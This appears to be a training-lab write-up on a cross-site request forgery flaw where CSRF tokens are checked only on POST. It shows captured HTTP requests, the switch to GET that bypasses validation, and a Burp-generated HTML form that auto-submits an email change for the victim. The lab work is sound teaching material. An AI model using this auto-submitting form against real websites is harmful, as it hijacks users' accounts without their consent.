


# CSRF where token validation depends on request method
## Lab Description :


## Overview :
alidation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:

```html
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

## Solution :
Since it is given that the update email functionality is vulnerable to CSRF, we can capture the request and see if there is any protection mechanism in place.

```html
POST /my-account/change-email HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk
```

In this POST request, we can see that there is a csrf token used in the body of the request along with the email parameter.

To bypass this, we can try to change the request method from POST to GET .
```html
GET /my-account/change-email?email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Now we can generate a POC and upload it in the exploit server to solve the lab.
```html
GET /my-account/change-email?email=test%40user.net&csrf=xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk HTTP/1.1
Host: 0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Cookie: session=nAZiwTvOzEcB1TdYD5RLaHfXTT5Mo2Lq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net
Referer: https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

Generated HTML POC -

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a9000b004fa0c888012c66c002e0008.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="xvqogQP8ZxVV3jk2Tyf2iisoyuHjGAbk" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Deliver the exploit to victim.



#### Visit The Next Page For The Next Level :)
